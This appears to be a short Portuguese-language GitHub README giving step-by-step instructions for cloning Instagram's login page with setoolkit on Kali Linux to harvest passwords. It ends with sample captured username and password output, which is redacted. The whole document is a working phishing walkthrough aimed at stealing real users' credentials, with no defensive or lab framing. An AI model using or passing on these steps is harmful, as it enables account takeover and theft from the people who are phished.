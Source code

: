 # Phishing para captura de senhas do Instagram

### Ferramentas Utilizadas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.instagram.com

### Resutados
                                        \/\/\/\/\/\/\/\/
POSSIBLE USERNAME FIELD FOUND: username=XXXXXXX@XXXXXXXX                                                                                         
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.

[*] WE GOT A HIT! Printing the output:                                          \/\/\/
POSSIBLE PASSWORD FIELD FOUND: enc_password=#PWD_INSTAGRAM_BROWSER:0:1734392052:XXXXXXX   

![Alt text](./passwd.png "Optional title")
